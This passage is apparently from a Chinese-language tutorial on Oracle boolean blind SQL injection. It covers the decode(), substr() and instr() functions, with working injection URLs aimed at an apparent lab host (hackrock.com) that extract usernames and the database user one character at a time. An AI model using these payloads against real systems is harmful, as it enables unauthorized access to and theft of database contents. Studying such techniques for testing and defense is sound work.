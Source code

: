 ```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select username from test.users where rownum=1),1,1),'a',1,0) from dual) --+
```

###### 5.**instr()函数布尔盲注**

```
instr函数的使用，从一个字符串中查找指定子串的位置。例如：
```

```
select instr('abcdef123de','de') position from dual;
```

<img src="assets/f9ebd510a44a38c9b44c37ae1aa95a07.png" alt="f9ebd510a44a38c9b44c37ae1aa95a07" style="zoom:50%;" />

```
从1开始算 de排第四所以返回4
```

###### 6.**布尔盲注中的应用**

```
http://hackrock.com:8080/oracle/?id=1 and (instr((select user from dual),'S'))=1 --+

http://hackrock.com:8080/oracle/?id=1 and (instr((select user from dual),'SY'))=1 --+

http://hackrock.com:8080/oracle/?id=1 and (instr((select user from dual),'SYS'))=1 --+
```

```
payload构造如上。
```

###### 7.**substr()函数布尔盲注**
